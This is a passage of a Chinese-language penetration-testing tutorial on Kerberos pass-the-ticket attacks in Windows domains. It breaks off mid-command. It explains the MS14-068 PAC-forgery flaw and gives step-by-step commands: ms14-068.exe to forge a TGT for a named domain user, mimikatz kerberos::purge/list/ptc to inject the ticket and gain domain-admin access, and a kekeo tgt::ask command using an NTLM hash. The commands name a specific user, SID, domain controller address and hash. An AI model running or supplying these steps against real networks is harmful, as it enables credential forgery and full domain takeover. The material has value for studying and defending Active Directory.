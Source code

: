 `PTH`部分基于`NTLM`认证进行攻击，而`PTT`基于`kerberos`协议进行攻击

`PTT`中最常见的三种攻击方式为：MS14-068、黄金票据、白银票据

MS14-068
--------

`MS14-068`是密钥分发中心（KDC）服务中的 Windows 漏洞。它允许经过身份验证的用户在其 Kerberos 票证（TGT）中插入任意 PAC（表示所有用户权限的结构）。该漏洞位于`kdcsvc.dll`域控制器的密钥分发中心 (KDC) 中。用户可以通过呈现具有改变的 PAC 的 Kerberos TGT 来获得票证。

`MS14-068`对应的补丁为`KB3011780`，接下来说一下`MS14-068`的利用过程

### 利用 mimikatz ptt

1. 获取普通域成员的 SID

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlxdUSQQFJJoWUUeVpcHlmeIZEuWAOvqf4qoJ3jFBnhL17S82c9JxEyg/640?wx_fmt=png)

2. 生成 TGT 票据

```
ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码MS14-068.exe -u mars2@Drunkmars.com -s S-1-5-21-652679085-3170934373-4288938398-1107 -d 192.168.10.5 -p <password>
```

在同目录下生成了`.ccache`文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBle3ByXEzGYl7ic090VaMMxndNluJSY9y4yr3KLOIc5YyuicruuzHMfJQg/640?wx_fmt=png)

3. 票据注入

使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

通过 mimikatz 进行票据注入

```
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造mimikatz # kerberos::list          //查看当前机器凭证mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlYurRRticFICZAgpxcxdP5tGVt4oexgnmxvXabxpUh2P2Kg7qRicIrKwA/640?wx_fmt=png)

4.klist 查看缓存票据

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlSuaGE6bpxMPDfYcia238kBy1QJIx907tenEQOh236tnAu711ibTjZkvQ/640?wx_fmt=png)

5. 建立 ipc 连接

可以看到我们这里已经提升到 dc 权限，这里需要注意一个问题，如果要使用 psexec 或者 wmi 进行远程执行命令的操作，这里的 ip 就要换成主机名字，否则无法登录成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlLJkFNDibamCibo8ucj2lUa8U0VUrlNQBoBxADG7QjcRjPD093AWuTRGQ/640?wx_fmt=png)

### 利用 kekeo ptt

这里使用到不用管理员权限进行 ptt，使用到 kekeo

1. 生成票据

```
kekeo "tgt::ask /user:mars2 /domain:Drunkmars.com /ntlm:ea7937eec9ab52e6cc9528a2011ca1d8
```
